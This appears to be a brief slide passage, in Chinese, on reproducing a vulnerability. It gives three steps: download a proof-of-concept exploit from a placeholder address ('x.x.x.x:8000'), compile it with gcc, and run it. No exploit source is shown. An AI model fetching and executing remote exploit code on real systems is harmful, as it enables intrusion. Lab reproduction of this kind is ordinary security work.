

漏洞复现
运行poc
 下载poc
fetch http://x.x.x.x:8000/poc.c > poc.c
 编译poc
gcc -o poc poc.c
 运行poc
./poc